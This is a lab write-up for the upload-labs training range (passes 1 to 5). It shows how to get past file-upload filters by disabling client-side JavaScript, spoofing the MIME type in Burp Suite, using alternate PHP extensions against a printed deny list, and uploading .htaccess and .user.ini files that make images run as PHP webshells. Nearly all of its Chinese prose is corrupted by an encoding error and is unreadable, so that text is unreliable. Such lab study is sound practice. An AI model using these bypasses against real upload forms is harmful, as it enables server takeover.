# upload-labsé¶åœºé€šå…³


+ æºç ä½ç½®ï¼šhttps://github.com/c0ny1/upload-labs

+ å‚考通关秘ç±ï¼š
  + [Upload-labsé¶åœºé€šå…³æ”»ç•¥(全网最全最完整)](https://blog.csdn.net/weixin_47598409/article/details/115050869)
  + [Upload-labsé¶åœºé€šå…³ç¬”è®°(å«ä»£ç å®¡è®¡)](https://blog.csdn.net/weixin_54894046/article/details/127239720?ops_request_misc=%7B%22request%5Fid%22%3A%22170438292316800215095603%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170438292316800215095603&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-3-127239720-null-null.142^v99^control&utm_term=upload-labs通关&spm=1018.2226.3001.4187)
  + [upload-labs详解1-19关通关全解(最全最详细)](https://blog.csdn.net/qq_53003652/article/details/129969951?ops_request_misc=%7B%22request%5Fid%22%3A%22170636374116800222847150%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170636374116800222847150&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-129969951-null-null.142^v99^pc_search_result_base4&utm_term=upload-labs通关&spm=1018.2226.3001.4187)
  + [文件上传æ¼æ´ä¹‹upload-labs打é¶ç¬”è®°-CSDNåšå®¢](https://blog.csdn.net/m0_60716947/article/details/124608448?ops_request_misc=%7B%22request%5Fid%22%3A%22170758532616800180610738%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=170758532616800180610738&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-23-124608448-null-null.142^v99^pc_search_result_base4&utm_term=upload-labs报错)
  + [生命在äºæŠ˜è…¾â€”—upload-labs-CSDNåšå®¢](https://blog.csdn.net/qq_15131581/article/details/126527056?spm=1001.2101.3001.6650.4&utm_medium=distribute.pc_relevant.none-task-blog-2~default~CTRLIST~Rate-4-126527056-blog-129969951.235^v43^pc_blog_bottom_relevance_base6&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~CTRLIST~Rate-4-126527056-blog-129969951.235^v43^pc_blog_bottom_relevance_base6&utm_relevant_index=9)
  
+ 本地打开地å€ï¼š<code>http://localhost/upload-labs</code>

+ 在线é¶åœºåœ°å€:<code>[upload-labs (shifa23.com)](http://uploads.shifa23.com/)</code>

+ 一å¥è¯æœ¨é©¬ï¼š[Web安全-一å¥è¯æœ¨é©¬_yijuhuamuma-CSDNåšå®¢](https://blog.csdn.net/weixin_39190897/article/details/86772765?ops_request_misc=%7B%22request%5Fid%22%3A%22170759274516800188526622%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=170759274516800188526622&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-86772765-null-null.142^v99^pc_search_result_base4&utm_term=jpg如何夹一å¥è¯æœ¨é©¬&spm=1018.2226.3001.4187)

## Pass 01


+ 首先查看æ示：本pass在客户端使用js对ä¸åˆæ³•å›¾ç‰‡è¿›è¡Œæ£€æŸ¥ï¼


+ 代ç å®¡è®¡ï¼ŒæŸ¥çœ‹ä¸‹æºä»£ç ï¼Œå‘ç°ç¡®å®åœ¨å‰ç«¯éªŒè¯ï¼š


+ 编写脚本：




### 方法一：æµè§ˆå™¨ç¦ç”¨JS

+ 点击图中的地方设置æµè§ˆå™¨

  


+ æµè§ˆå™¨ç¦ç”¨JSå上传php文件


+ æˆåŠŸä¸Šä¼ å在å³é”®åœ¨å¦ä¸€æ ‡ç­¾æ‰“开上传的图片


+ å‘ç°webshellæˆåŠŸæ‰§è¡Œ


## Pass 02

+ 首先查看æ示:

~~~ tex
本pass在æœåŠ¡ç«¯å¯¹æ•°æ®åŒ…çš„MIME进行检查ï¼
~~~


+ 上传<code>pass-02</code>的脚本文件


+ 在burpsuite软件拦截包å修改上传的PHP文件的content-type为image/png


+ å¯ä»¥çœ‹åˆ°æ–‡ä»¶æˆåŠŸä¸Šä¼ 


+ å³é”®åœ¨å¦å¤–的标签页打开刚上传的文件


注入æˆåŠŸ


## Pass 03

+ 首先查看æ示

~~~ shell
本passç¦æ­¢ä¸Šä¼ .asp|.aspx|.php|.jspå缀文件ï¼
~~~


+ 查看æºä»£ç 

~~~ php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件å末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转æ¢ä¸ºå°å†™
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//å»é™¤å­—符串::$DATA
        $file_ext = trim($file_ext); //收尾å»ç©º

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错ï¼';
            }
        } else {
            $msg = 'ä¸å…许上传.asp,.aspx,.php,.jspå缀文件ï¼';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹ä¸å­˜åœ¨,请手工创建ï¼';
    }
}

~~~

查看æºç ï¼Œé»‘åå•å¯ç”¨<code>php2</code>ã€<code>php3</code>ã€<code>php5</code>ã€<code>php7</code>ã€<code>phtml</code>等绕过


+ 修改<code>phpstudy</code>çš„é…置文件<code>httpd.conf</code>




+ 加上下é¢è¿™æ¡å‘½ä»¤ï¼š

~~~ shell
AddType application/x-httpd-php .php .phtml .php5 .php3
~~~



> 修改完é…置文件åè®°å¾—é‡å¯ä»¥ä¸‹<code>phpstudy</code>æœåŠ¡ç¯å¢ƒ
>
> ~~~ tex
> å…³äºAddType命令的作用解释
> 
> AddType 指令 作用：在给定的文件扩展åä¸ç‰¹å®šçš„内容类å‹ä¹‹é—´å»ºç«‹æ˜ å°„ 语法：AddType MIME-type extension
> [extension] …
> AddType指令在给定的文件扩展åä¸ç‰¹å®šçš„内容类å‹ä¹‹é—´å»ºç«‹æ˜ å°„关系。MIME-type指æ˜äº†åŒ…å«extension扩展å的文件的媒体类å‹ã€‚
> AddType 是ä¸ç±»å‹è¡¨ç›¸å…³çš„，æ述的是扩展åä¸æ–‡ä»¶ç±»å‹ä¹‹é—´çš„关系。
> ~~~


+ é‡æ–°å¯åŠ¨<code>phpstudy</code>æœåŠ¡ç¯å¢ƒ


+ 将一å¥è¯æœ¨é©¬æ–‡ä»¶<code>.php</code>å缀改为<code>.php5</code>å³å¯ä¸Šä¼ 


+ 如图，上传æˆåŠŸ


+ 这里有个问题，<code>php</code>版本ä¸èƒ½ä¸º<code>nts</code>，ä¸ç„¶å°±ä¼šå‡ºç°<code>.php5</code>文件无法解æ的情况


## Pass04

+ 查看下æ示信æ¯

~~~ shell
本passç¦æ­¢ä¸Šä¼ .php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swfå缀文件ï¼
~~~


+ 这题使用的是<code>php5</code>ç¯å¢ƒï¼Œé‡æ–°ä¸Šä¼ <code>pass3</code>需上传的<code>php5</code>或其他类å‹æ–‡ä»¶å‡å¤±è´¥


+ å‘ç°æœ‰ä¸€ä¸ªæ–‡ä»¶æ²¡æœ‰è¿‡æ»¤ï¼Œæ˜¯ä¸Šä¼ è¿‡ç¨‹ä¸­ç»å¸¸ç”¨åˆ°çš„<code>.htaccess</code>文件

~~~ tex
.htaccess基础知识*é‡ç‚¹å†…容*
.htaccess文件(或者â€åˆ†å¸ƒå¼é…置文件â€ï¼‰,全称是Hypertext Access(超文本入å£)。æ供了针对目录改å˜é…置的方法， å³ï¼Œåœ¨ä¸€ä¸ªç‰¹å®šçš„文档目录中放置一个包å«ä¸€ä¸ªæˆ–多个指令的文件， 以作用äºæ­¤ç›®å½•åŠå…¶æ‰€æœ‰å­ç›®å½•ã€‚作为用户，所能使用的命令å—到é™åˆ¶ã€‚管ç†å‘˜å¯ä»¥é€šè¿‡Apacheçš„AllowOverride指令æ¥è®¾ç½®ã€‚

å¯ç”¨.htaccess，需è¦ä¿®æ”¹httpd.conf，å¯ç”¨AllowOverride，并å¯ä»¥ç”¨AllowOverrideé™åˆ¶ç‰¹å®šå‘½ä»¤çš„使用。如æœéœ€è¦ä½¿ç”¨.htaccess以外的其他文件å，å¯ä»¥ç”¨AccessFileName指令æ¥æ”¹å˜ã€‚例如，需è¦ä½¿ç”¨.config ，则å¯ä»¥åœ¨æœåŠ¡å™¨é…置文件中按以下方法é…置：AccessFileName .config 。

它里é¢æœ‰è¿™æ ·ä¸€æ®µä»£ç ï¼šAllowOverride None，如æœæˆ‘们把None改æˆAll
~~~


~~~ tex
概述æ¥è¯´ï¼Œhtaccess文件是ApacheæœåŠ¡å™¨ä¸­çš„一个é…置文件，它负责相关目录下的网页é…置。通过htaccess文件，å¯ä»¥å¸®æˆ‘们å®ç°ï¼šç½‘页301é‡å®šå‘ã€è‡ªå®šä¹‰404错误页é¢ã€æ”¹å˜æ–‡ä»¶æ‰©å±•åã€å…许/阻止特定的用户或者目录的访问ã€ç¦æ­¢ç›®å½•åˆ—表ã€é…置默认文档等功能。

Unixã€Linux系统或者是任何版本的Apache WebæœåŠ¡å™¨éƒ½æ˜¯æ”¯æŒ.htaccess的，但是有的主机æœåŠ¡å•†å¯èƒ½ä¸å…许你自定义自己的.htaccess文件。

å¯ç”¨.htaccess，需è¦ä¿®æ”¹httpd.conf，å¯ç”¨AllowOverride，并å¯ä»¥ç”¨AllowOverrideé™åˆ¶ç‰¹å®šå‘½ä»¤çš„使用。如æœéœ€è¦ä½¿ç”¨.htaccess以外的其他文件å，å¯ä»¥ç”¨AccessFileName指令æ¥æ”¹å˜ã€‚例如，需è¦ä½¿ç”¨.config ，则å¯ä»¥åœ¨æœåŠ¡å™¨é…置文件中按以下方法é…置：AccessFileName .config 。

笼统地说，.htaccesså¯ä»¥å¸®æˆ‘们å®ç°åŒ…括：文件夹密ç ä¿æŠ¤ã€ç”¨æˆ·è‡ªåŠ¨é‡å®šå‘ã€è‡ªå®šä¹‰é”™è¯¯é¡µé¢ã€æ”¹å˜ä½ çš„文件扩展åã€å°ç¦ç‰¹å®šIP地å€çš„用户ã€åªå…许特定IP地å€çš„用户ã€ç¦æ­¢ç›®å½•åˆ—表，以åŠä½¿ç”¨å…¶ä»–文件作为index文件等一些功能。
~~~


+ æ¼æ´åŸç†

~~~ tex
利用上传到æœåŠ¡å™¨ä¸Šçš„.htaccess文件修改当å‰ç›®å½•ä¸‹çš„解æ规则
~~~


+ 查看æºç 




+ å½¢æˆæ¡ä»¶

~~~ tex
1.php5.6以下ä¸å¸¦nts的版本
2.æœåŠ¡å™¨æ²¡æœ‰ç¦æ­¢.htaccess文件的上传，且æœåŠ¡å•†å…许用户使用自定义.htaccess文件
~~~


1. <code>.htaccess</code>å‚æ•°

常è§é…法有以下几ç§ï¼š

~~~ tex
AddHandler php5-script .jpg
AddType application/x-httpd-php .jpg
SetHandler application/x-httpd-php

Sethandler 将该目录åŠå­ç›®å½•çš„所有文件å‡æ˜ å°„为php文件类å‹ã€‚
Addhandler 使用 php5-script 处ç†å™¨æ¥è§£æ所匹é…到的文件。
AddType 将特定扩展å文件映射为php文件类å‹ã€‚
~~~


~~~ txt
以下是这段 Apache é…置代ç çš„é€å¥è§£æåŠå®Œæ•´è¯´æ˜ï¼š

---

### **代ç é€å¥è§£é‡Š**

#### **1. `<FilesMatch "jpg">`**
- **作用**：开å¯ä¸€ä¸ªé…ç½®å—，匹é…文件åä¸­åŒ…å« `jpg` 字符串的请求。
- **细节**：
  - `FilesMatch` 指令通过正则表达å¼ï¼ˆé»˜è®¤ï¼‰åŒ¹é…请求的文件å。
  - 当å‰æ¨¡å¼ `"jpg"` 存在问题：
    - 它会匹é…**文件å中任æ„ä½ç½®åŒ…å« `jpg`** 的文件（例如 `image.jpg`, `jpg.png`, `backup_jpg.txt` 等）。
    - 更安全的写法应为 `\.jpg$`，表示**以 `.jpg` 结尾的文件**。
    - 建议添加 `(?i)` 标志忽略大å°å†™ï¼ˆå¦‚ `(?i)\.jpg$`ï¼‰ï¼Œä»¥åŒ¹é… `.JPG`ã€`.Jpg` 等扩展å。

---

#### **2. `SetHandler application/x-httpd-php`**
- **作用**：强制将匹é…到的文件交给 PHP 解æ器执行。
- **细节**：
  - å³ä½¿æ–‡ä»¶æ‰©å±•å是 `.jpg`，Apache 也会调用 PHP 解æ器处ç†æ–‡ä»¶å†…容。
  - 常用äºåŠ¨æ€ç”Ÿæˆå›¾ç‰‡çš„场景（例如通过 PHP 脚本输出图åƒæ•°æ®ï¼‰ã€‚
  - **é£é™©**：
    - 若用户能上传 `.jpg` 文件，攻击者å¯ä¸Šä¼ ä¼ªè£…æˆå›¾ç‰‡çš„ PHP 代ç å¹¶æ‰§è¡Œï¼Œå¯¼è‡´æœåŠ¡å™¨è¢«å…¥ä¾µã€‚
    - 真å®çš„图片文件若被误解æ为 PHP，å¯èƒ½è¿”å›é”™è¯¯æˆ–泄露æ•æ„Ÿä¿¡æ¯ã€‚

---

#### **3. `</FilesMatch>`**
- **作用**ï¼šç»“æŸ `FilesMatch` é…ç½®å—。

---

### **潜在问题ä¸æ”¹è¿›å»ºè®®**

#### **1. 正则表达å¼ä¸ä¸¥è°¨**
- **问题**：åŸé…ç½® `"jpg"` å¯èƒ½è¯¯åŒ¹é…é预期的文件（如 `backupjpg.txt`）。
- **改进**：
  ```apache
  <FilesMatch "(?i)\.jpg$">
    SetHandler application/x-httpd-php
  </FilesMatch>
  ```
  - `(?i)`：忽略大å°å†™ã€‚
  - `\.jpg$`：严格匹é…以 `.jpg` 结尾的文件。

---

#### **2. 安全éšæ‚£**
- **é£é™©**：å…许执行用户上传的 `.jpg` 文件中的 PHP 代ç ã€‚
- **防御**：
  - ç¦æ­¢ç”¨æˆ·ä¸Šä¼ å¯æ‰§è¡Œæ–‡ä»¶ã€‚
  - 将上传目录的 PHP 执行æƒé™å…³é—­ï¼š
    ```apache
    <Directory "/path/to/uploads">
      php_flag engine off
    </Directory>
    ```

---

#### **3. 替代写法**
如æœç›®çš„是将 `.jpg` 扩展åå…³è”到 PHP 解æ器，更清晰的写法是：
```apache
AddHandler application/x-httpd-php .jpg
```
- **区别**：
  - `AddHandler` ç›´æ¥å…³è”扩展å，无需正则匹é…。
  - ä»éœ€æ³¨æ„安全é£é™©ã€‚

---

### **å…¸å‹åº”用场景**
- **动æ€å›¾ç‰‡ç”Ÿæˆ**：通过 PHP 脚本å®æ—¶ç”Ÿæˆå›¾ç‰‡ï¼ˆå¦‚验è¯ç ã€å›¾è¡¨ï¼‰ã€‚
  ```php
  <?php
    header("Content-Type: image/jpeg");
    // 生æˆå›¾ç‰‡å¹¶è¾“出
    $image = imagecreate(200, 100);
    // ... 图åƒå¤„ç†ä»£ç  ...
    imagejpeg($image);
    imagedestroy($image);
  ?>
  ```
  - ä¿å­˜ä¸º `.jpg` 文件å，Apache 会调用 PHP 解æ器执行并返å›å›¾åƒå†…容。

---

### **总结**
这段é…置强制所有文件ååŒ…å« `jpg` 的文件由 PHP 解æ，但存在**误匹é…和安全é£é™©**。å®é™…使用时需严格é™åˆ¶æ–‡ä»¶åæ ¼å¼ï¼Œå¹¶ç¡®ä¿åº”用场景的必è¦æ€§ã€‚如æœä»æœ‰ç–‘问，欢è¿è¿›ä¸€æ­¥è®¨è®ºï¼ 🛠ï¸
~~~


<code>.htaccess</code>文件内容如下：

~~~ shell
SetHandler application/x-httpd-php .png
~~~


### 方法一

先上传<code>.htaccess</code>方法å†ä¸Šä¼ åç¼€<code>png</code>文件，将该目录åŠå­ç›®å½•çš„所有文件å‡æ˜ å°„为 <code>php</code>文件

>使用的php版本为php5.4.45 è¿è¡Œæ¨¡å¼ä¸º **Apache 2.0 Handler**
>
> 在phpçš„nts版本下é¢æ— æ³•è§£æpng图片为php文件 该è¿è¡Œæ¨¡å¼ä¸ºCGI/FastCGI


+ <code>nts</code>å’Œé<code>nts</code>版本区别对比

> 在PHP å¼€å‘和生产ç¯å¢ƒæ­å»ºè¿‡ç¨‹ä¸­ï¼Œéœ€è¦å®‰è£…PHP语言解æ器。官方æ供了2ç§ç±»å‹çš„版本，线程安全（TS）版和é线程安全（NTS）版，有时å我们开å‘ç¯å¢ƒå’Œå®é™…生产的ç¯å¢ƒæœ‰æ‰€ä¸åŒï¼Œå› æ­¤ä¹Ÿéœ€è¦é€‰æ‹©å®‰è£…对应的PHP版本。
>
>  
>
> **1ã€ç®€ä»‹**
>
> **TS:**
>
> 　　TS(*Thread-Safety*)å³çº¿ç¨‹å®‰å…¨ï¼Œå¤šçº¿ç¨‹è®¿é—®æ—¶ï¼Œé‡‡ç”¨äº†åŠ é”机制，当一个线程访问该类的æŸä¸ªæ•°æ®æ—¶è¿›è¡Œæ•°æ®åŠ é”ä¿æŠ¤ï¼Œå…¶ä»–线程ä¸èƒ½åŒæ—¶è¿›è¡Œè®¿é—®è¯¥æ•°æ®ï¼Œç›´åˆ°è¯¥çº¿ç¨‹è¯»å–完毕，其他线程æ‰å¯è®¿é—®ä½¿ç”¨è¯¥æ•°æ®ï¼Œå¥½å¤„是ä¸ä¼šå‡ºç°æ•°æ®ä¸ä¸€è‡´æˆ–者数æ®æ±¡æŸ“的情况，但耗费的时间è¦æ¯” NTS 长。
>
> 　　PHP以 ISAPI æ–¹å¼ï¼ˆApache 常用方å¼ï¼‰åŠ è½½çš„时候选择TS版本。
>
>  
>
> **NTS:**
>
> 　　NTS(*None-Thread Safe*)å³é线程安全，ä¸æ供数æ®è®¿é—®ä¿æŠ¤ï¼Œæœ‰å¯èƒ½å‡ºç°å¤šä¸ªçº¿ç¨‹å…ˆå或åŒæ—¶æ“作åŒä¸€æ•°æ®çš„情况，容易造æˆæ•°æ®é”™ä¹±ï¼ˆå³è„æ•°æ®ï¼‰ï¼Œä¸€èˆ¬æ“作的执行时间è¦æ¯” TS 短。
>
> 　　PHP以FAST-CGIæ–¹å¼åŠ è½½è¿è¡Œçš„时候选择TNS版，具有更好的性能；
>
> 　　
>
> **ISAPI：**
>
> 　　ISAPI(*Internet Server Application Programming Interface*), 通常是指被httpæœåŠ¡å™¨æ‰€åŠ è½½ï¼Œä»¥æœåŠ¡å™¨çš„模å—å½¢å¼è¿è¡Œï¼Œç”±å¾® 软æ出，故åªèƒ½åœ¨winå¹³å°ä¸Šè¿è¡Œï¼Œå¦‚win下的apache,iis[用fast cgi æ–¹å¼å·¥ä½œæ›´ç¨³å®š]，而linux上php 则以 Apache模å—（常用方å¼ï¼‰æˆ–者php-fpm（该方å¼æ›´é€‚åˆäºNGINX+PHP è¿è¡Œï¼‰çš„æ–¹å¼è¿è¡Œã€‚
>
>  
>
> **CGI：**
>
> 　　cgi(*Common Gateway Interface*):HTTPæœåŠ¡å™¨ä¸å®¢æˆ·ç«¯æœºå™¨ä¸Šçš„程åºè¿›è¡Œâ€œäº¤è°ˆâ€çš„一ç§å·¥å…·,简而言之，cigå°±æ˜¯ä¸€ç§ åå°è¯­è¨€ï¼Œå¯ä»¥ä¸æœåŠ¡å™¨è¿›è¡Œé€šè®¯ã€‚此时的php是作为一个独立的程åºè¿è¡Œçš„，特点就是耗费内存。
>
>  
>
> **FAST CGI：**
>
> 　　fast cgi是一个常驻(long-live)å‹çš„CGI，它å¯ä»¥ä¸€ç›´æ‰§è¡Œç€ï¼Œåªè¦æ¿€æ´»å，ä¸ä¼šæ¯æ¬¡éƒ½è¦èŠ±è´¹æ—¶é—´å»fork一个新进程。这ç§æ–¹å¼ 是ä¸è¯­è¨€æ— å…³çš„ã€å¯ä¼¸ç¼©æ¶æ„çš„CGI开放扩展，其主è¦è¡Œä¸ºæ˜¯å°†CGI解释器进程ä¿æŒåœ¨å†…存中并因此è·å¾—较 高的性能。
>
>  
>
> FAST-CGI 是微软为了解决 CGI 解释器的ä¸è¶³è€Œæå‡ºæ”¹è¿›æ–¹æ¡ˆã€‚å½“ä¸€ä¸ªè¯·æ±‚å‘ web server å‘é€è¯·æ±‚时，web server总会fork一个CGI解释器进程进行处ç†è¿™ä¸ªè¯·æ±‚，进程处ç†å®Œæˆä¹‹å将结æœè¿”å›ç»™web server，web server将结æœè¿”å›å¹¶æ˜¾ç¤ºå‡ºæ¥ï¼Œè¿›ç¨‹ç»“æŸï¼Œå½“用户å†æ¬¡è¯·æ±‚åŒä¸€ä¸ªé¡µé¢æ—¶ï¼Œweb serveråˆä¼šfork一个新进程进行请求处ç†ï¼Œè¿™æ ·æ•ˆç‡ä¼šæ¯”较ä½ä¸‹ï¼ˆCGI被人诟病的主è¦åŸå› ï¼‰ã€‚而采用FAST-CGI 解释器的 è¯ï¼Œå½“一个请求执行完毕åä¸ä¼šæ³¨é”€è¯¥è¿›ç¨‹ï¼Œè€Œæ˜¯å°†æ”¹è¿›ç¨‹è¿›å…¥ä¼‘眠期，当æ¥æ”¶åˆ°æ–°çš„请求时，é‡æ–°å¯ç”¨æ”¹è¿›ç¨‹è¿›è¡Œå¤„ç†ã€‚FAST-CGI 较CGI å‡å°‘了进程的é‡å¤åˆ›å»ºçš„资æºå ç”¨ã€‚
>
> 　　进程ä¸çº¿ç¨‹ï¼šä¸€ä¸ªè¿›ç¨‹è‡³å°‘存在一个或多个线程。
>
>  
>
> **2ã€é€‰æ‹©**
>
> 　　通常win下 PHP + Apache 组åˆï¼Œä»¥ ISAPI çš„æ–¹å¼è¿è¡Œã€‚
>
> 　　而linux下通常分为2ç§ï¼š
>
> 　　 Apache + PHP，PHP一般作为Apache 的模å—进行è¿è¡Œï¼›
>
> 　　 Nginx + PHP ，以 phpfast cgiçš„æ–¹å¼ï¼Œå³php-fpmçš„æ–¹å¼è¿è¡Œï¼Œè¯¥æ–¹å¼å¯¹é«˜å¹¶å‘ã€é«˜è´Ÿè½½æœ‰è‰¯å¥½çš„性能体ç°ï¼Œå› æ­¤å¾ˆå¤šç½‘站采用该方å¼è¿›è¡Œç¯å¢ƒçš„æ­å»ºã€‚
>
> 　　Nginx 较Apache çš„é…ç½®è¦å°‘很多，因此人为出错的概ç‡è¦å°‘一点，但也因此 Apache çš„ 稳定性è¦æ¯”Nginx 高。
>
>  
>
> å‰é¢åºŸè¯äº†é‚£ä¹ˆå¤šï¼Œä¸‹é¢æ‰æ˜¯é‡ç‚¹ ...
>
> **总结：**
>
> - **以 ISAPI æ–¹å¼è¿è¡Œå°±ç”¨ TS 线程安全版**
> - **以 FAST-CGI 或 PHP-FPM æ–¹å¼è¿è¡Œå°±ç”¨NTS é线程安全版**
> - **通常 Windows 下 Apache + PHP 选TS ，IIS（fast-cgi） + PHP 选TNS**
> - **通常Linux 下 Apache + PHP 选TS，Nginx + PHP 选TNS**


+ <code>nts</code>版本会报<code>500</code>内部错误


+ é<code>nts</code>版本没有这样的æ¡ä»¶å¯¼è‡´è¿™å…³æ”»å…³å¤±è´¥


## Pass05

+ 使用的版本

​	这里我使用的版本是<code>php5.4.45 nts</code>以åŠ<code>Apache2.4.39</code>




+ 点开æ示


+ 查看æºç 


​        æºç é‡ŒæŠŠæ‰€æœ‰å¯ä»¥è§£æçš„åç¼€å都给写死了，包括大å°å†™ï¼Œè½¬æ¢ï¼Œç©ºæ ¼ï¼Œè¿˜æœ‰ç‚¹å·ï¼Œæ­£å¸¸çš„php类文件上传ä¸äº†äº†ï¼Œå¹¶ä¸”æ‹’ç»ä¸Šä¼  <code>.htaccess</code> 文件；åå¤è§‚察å‘ç°æ²¡æœ‰è¢«é™åˆ¶çš„åç¼€å有<code> .php7</code> 以åŠ<code> .ini</code>


+ 百度一番<code>ini</code>的知识

~~~ tex
user.ini ： 自 PHP 5.3.0 起，PHP 支æŒåŸºäºæ¯ä¸ªç›®å½•çš„ .htaccess é£æ ¼çš„ INI 文件。此类文件仅被
CGIï¼FastCGI SAPI 处ç†ã€‚此功能使得 PECL çš„ htscanner 扩展作废。如æœä½¿ç”¨ Apache，则用
.htaccess 文件有åŒæ ·æ•ˆæœã€‚
   
除了主 php.ini 之外，PHP 还会在æ¯ä¸ªç›®å½•ä¸‹æ‰«æ INI 文件，ä»è¢«æ‰§è¡Œçš„ PHP 文件所在目录开始一直上å‡åˆ° web
根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如æœè¢«æ‰§è¡Œçš„ PHP 文件在 web 根目录之外，则åªæ‰«æ该目录。
   
在 .user.ini é£æ ¼çš„ INI 文件中åªæœ‰å…·æœ‰ PHP_INI_PERDIR å’Œ PHP_INI_USER 模å¼çš„ INI
设置å¯è¢«è¯†åˆ«ã€‚
   
两个新的 INI 指令，user_ini.filename å’Œ user_ini.cache_ttl æ§åˆ¶ç€ç”¨æˆ· INI 文件的使用。
   
user_ini.filename 设定了 PHP 会在æ¯ä¸ªç›®å½•ä¸‹æœå¯»çš„文件å；如æœè®¾å®šä¸ºç©ºå­—符串则 PHP ä¸ä¼šæœå¯»ã€‚默认值是
.user.ini。
   
user_ini.cache_ttl æ§åˆ¶ç€é‡æ–°è¯»å–用户 INI 文件的间隔时间。默认是 300 秒（5 分钟）。
~~~

<code>php.ini</code> 是<code>php</code>çš„é…置文件，<code>.user.ini</code> 中的字段也会被 <code>php</code> 视为é…置文件æ¥å¤„ç†ï¼Œä»è€Œå¯¼è‡´<code>php</code>的文件解ææ¼æ´ã€‚


+ 引å‘<code>.user.ini</code>解ææ¼æ´éœ€è¦ä¸‰ä¸ªå‰ææ¡ä»¶

~~~ tex
æœåŠ¡å™¨è„šæœ¬è¯­è¨€ä¸ºPHP  

æœåŠ¡å™¨ä½¿ç”¨CGIï¼FastCGIæ¨¡å¼  

上传目录下è¦æœ‰å¯æ‰§è¡Œçš„php文件
~~~


+ 百度下<code>CGI</code>

~~~ tex
什么是 CGI
    CGI 的全称为“通用网关æ¥å£â€ï¼ˆCommon Gateway Interface），为 HTTP æœåŠ¡å™¨ä¸å…¶ä»–机器上的程åºæœåŠ¡é€šä¿¡äº¤æµçš„一ç§å·¥å…·ï¼Œ CGI 程åºé¡»è¿è¡Œåœ¨ç½‘络æœåŠ¡å™¨ä¸Šã€‚
    传统 CGI æ¥å£æ–¹å¼çš„主è¦ç¼ºç‚¹æ˜¯æ€§èƒ½è¾ƒå·®ï¼Œå› ä¸ºæ¯æ¬¡ HTTP æœåŠ¡å™¨é‡åˆ°åŠ¨æ€ç¨‹åºæ—¶éƒ½éœ€è¦é‡æ–°å¯åŠ¨è§£æ器æ¥æ‰§è¡Œè§£æ，之å结æœæ‰ä¼šè¢«è¿”å›ç»™ HTTPæœåŠ¡å™¨ã€‚这在处ç†é«˜å¹¶å‘访问时几ä¹æ˜¯ä¸å¯ç”¨çš„，因此就è¯ç”Ÿäº† FastCGI。å¦å¤–，传统的 CGI æ¥å£æ–¹å¼å®‰å…¨æ€§ä¹Ÿå¾ˆå·®ï¼Œæ•…而ç°åœ¨å·²ç»å¾ˆå°‘被使用了。
   
什么是 FastCGI
    FastCGI 是一个å¯ä¼¸ç¼©åœ°ã€é«˜é€Ÿåœ°åœ¨HTTPæœåŠ¡å™¨å’ŒåŠ¨æ€æœåŠ¡è„šæœ¬è¯­è¨€é—´é€šä¿¡çš„æ¥å£ï¼ˆåœ¨ Linux 下， FastCGI æ¥å£å³ä¸º socket，这个socket å¯ä»¥æ˜¯æ–‡ä»¶ socket，也å¯ä»¥æ˜¯IP socket），主è¦ä¼˜ç‚¹æ˜¯æŠŠåŠ¨æ€è¯­è¨€å’Œ HTTPæœåŠ¡å™¨åˆ†ç¦»å¼€æ¥ã€‚多数æµè¡Œçš„ HTTP æœåŠ¡å™¨éƒ½æ”¯æŒ FastCGI，包括 Apache 〠Nginx å’Œ Lighttpd 等。
    åŒæ—¶ï¼ŒFastCGI也被许多脚本语言所支æŒï¼Œä¾‹å¦‚当å‰æ¯”较æµè¡Œçš„脚本语言PHP。FastCGI æ¥å£é‡‡ç”¨çš„是C/Sæ¶æ„，它å¯ä»¥å°† HTTP æœåŠ¡å™¨å’Œè„šæœ¬æœåŠ¡å™¨åˆ†å¼€ï¼ŒåŒæ—¶è¿˜èƒ½åœ¨è„šæœ¬è§£ææœåŠ¡å™¨ä¸Šå¯åŠ¨ä¸€ä¸ªæˆ–多个脚本æ¥è§£æ守护进程。当 HTTPæœåŠ¡å™¨é‡åˆ°åŠ¨æ€ç¨‹åºæ—¶ï¼Œå¯ä»¥å°†å…¶ç›´æ¥äº¤ä»˜ç»™ FastCGI 进程æ¥æ‰§è¡Œï¼Œç„¶å将得到结æœè¿”å›ç»™æµè§ˆå™¨ã€‚è¿™ç§æ–¹å¼å¯ä»¥è®© HTTPæœåŠ¡å™¨ä¸“一地处ç†é™æ€è¯·æ±‚，或者将动æ€è„šæœ¬æœåŠ¡å™¨çš„结æœè¿”å›ç»™å®¢æˆ·ç«¯ï¼Œè¿™åœ¨å¾ˆå¤§ç¨‹åº¦ä¸Šæ高整个应用系统的性能。
~~~


+ 对比下，<code>php</code>语言ä¸<code>CGI</code>对äºæˆ‘们的<code>Apache</code>å’Œç¯å¢ƒå‡æ»¡è¶³


+ 创建<code>.user.ini</code>文件并上传


